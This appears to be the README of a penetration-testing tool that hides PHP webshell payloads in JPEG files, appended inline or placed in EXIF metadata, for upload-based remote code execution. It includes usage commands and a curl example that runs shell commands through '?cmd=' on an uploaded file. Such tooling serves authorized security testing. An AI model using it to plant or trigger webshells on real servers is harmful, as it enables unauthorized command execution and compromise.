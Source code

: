 # php-in-jpg

**php-in-jpg** is a simple but flexible tool that generates `.jpg` image files embedding PHP payloads.  
It supports two techniques:

- **Inline payload**: appends PHP code directly to the image
- **EXIF metadata injection**: embeds the payload in the image's comment field using `exiftool`.

By default, the payload uses the **GET-based execution mode** (`?cmd=your_command`) unless a fixed command is specified.

This tool is designed to support **PHP RCE polyglot techniques**, often used in upload-based exploitation scenarios or webshell demonstrations.

![PoC demo](screenshots/poc.png)

---

## 🛠️ Features

- Embed PHP payload directly or via EXIF metadata
- Choose between a **fixed command** or `?cmd=` **GET-based execution**
- Support for custom or default HTML/PHP templates with `{{COMMAND}}` and `{{OUTPUT}}`
- Optional preview-only mode: show payload without writing files
- Clean HTML output styling (terminal-like, via default template)

---

## 🚀 Usage

```bash
python php-in-jpg.py -m <method> [options]
```

### Available options:

| Option                | Description                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| `-m, --method`        | Insertion method: `inline` or `metadata` (**required**)                     |
| `-c, --cmd-mode`      | Command mode: `fixed` (static command) or `get` (dynamic via `?cmd=`). Default is `get`. |
| `-x, --fixed-cmd`     | Fixed shell command to embed (required if `--cmd-mode fixed`)               |
| `-o, --output`        | Output file name (e.g. `payload.php.jpg`)                                   |
| `-t, --template`      | Optional template with `{{COMMAND}}` and `{{OUTPUT}}` placeholders          |
| `--show-payload`      | Print PHP payload to screen only, no file creation                          |

---

## 📦 Examples

```bash
# Embed a fixed command using inline method
python php-in-jpg.py -m inline -c fixed -x "whoami" -o shell.php.jpg

# Embed dynamic GET-based payload via EXIF (default cmd-mode)
python php-in-jpg.py -m metadata -o payload.php.jpg

# Access via browser or curl: payload.php.jpg?cmd=pwd
curl "http://target/upload/payload.php.jpg?cmd=pwd"

# Just preview the generated PHP code
python php-in-jpg.py -m inline -c fixed -x "ls -l" --show-payload
```

---

### 💻 Example CLI Output

```
$ python php-in-jpg.py -m inline -c fixed -x "ls -l"
[+] File generated: jpg_poc_fixed_inline_20250408_134033.php.jpg
[!] Embedded command: ls -l

$ python php-in-jpg.py -m inline -c fixed -x "ls -l" -t wrong_path
[-] Error: template file not found at: wrong_path

$ python php-in-jpg.py -m inline -c fixed -x "pwd" -t template/custom.tpl -o output.php.jpg
[+] File generated: output.php.jpg
[!] Embedded command: pwd

$ python php-in-jpg.py -m metadata -c fixed -x "whoami" -o output.php.jpg
    1 image files updated
[+] File generated: output.php.jpg
[!] Embedded command: whoami
```

---

## 📁 Template system

Templates must contain the following placeholders:

- `{{COMMAND}}`: replaced with the displayed command
- `{{OUTPUT}}`: replaced with the actual `system(...)` or similar execution block

A default template is located in: `template/default.tpl`

---

## 🔧 Requirements

- Python 3
- Python dependencies: install via `pip install -r requirements.txt`
- `exiftool` (external tool, used for metadata injection)

---

## ⚠️ Disclaimer

This tool is for **educational and authorized testing purposes only**.  
Do not use it in unauthorized environments.
